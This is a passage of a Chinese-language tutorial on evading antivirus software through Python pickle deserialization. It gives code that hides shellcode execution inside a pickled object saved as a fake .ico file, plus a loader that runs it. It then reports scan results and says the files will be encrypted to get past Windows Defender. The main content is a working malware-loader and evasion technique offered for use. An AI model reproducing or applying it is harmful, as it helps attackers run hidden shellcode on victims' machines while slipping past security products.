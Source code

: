 ```python
class A(object):
   def __reduce__(self):
       return(exec,(shellcode,))

ret=pickle.dumps(A())

#将pickle后的数据写入test.ico文件
with open("test.ico",'wb') as file:
   file.write(ret)
```

​	

### PickleLoad.py

```python
import pickle
import ctypes

temp=open("test.ico","rb").read()
shellcode=pickle.loads(temp)  #将pickle数据转换成python数据结构,以此能够执行python代码
```



## 运行测试

先执行`GenerateShellcode.py`生成`shellcode.txt`文件, 再执行`PickleDump.py`生成`test.ico`文件, 用火绒扫描下这两个文件, 没有报毒, 但是WindowsDefender报毒了, 不过没关系, 后文我会通过对这两个文件加密来绕过WindowsDefender

<img src="Python反序列化免杀/image-20221119222504696.png" alt="image-20221119222504696" style="zoom:67%;" />

​	
